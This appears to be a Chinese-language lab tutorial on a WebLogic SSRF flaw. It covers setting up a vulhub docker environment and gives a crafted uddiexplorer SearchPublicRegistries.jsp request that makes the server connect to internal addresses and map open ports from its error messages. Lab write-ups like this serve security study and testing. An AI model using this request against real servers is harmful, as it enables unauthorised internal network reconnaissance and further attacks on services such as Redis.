


Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。
测试环境搭建
docker搭建
1 | https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf |
编译及启动测试环境1
2docker-compose build
docker-compose up -d
访问 http://your-ip:7001/uddiexplorer/，无需登录即可查看 uddiexplorer 应用。
SSRF漏洞测试
SSRF漏洞存在于 http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp，我们在 brupsuite 下测试该漏洞。访问一个可以访问的 IP:PORT，如 http://127.0.0.1:80
访问：1
http://192.168.30.146:7001/uddiexplorer/SearchPublicRegistries.jsp?operator=http://127.0.0.1:7000/uddi&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search

修改为一个不存在的端口，将会返回could not connect over HTTP to server。
1 | http://192.168.30.146:7001/uddiexplorer/SearchPublicRegistries.jsp?operator=http://127.0.0.1:7000/uddi&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search |

通过错误的不同，即可探测内网状态。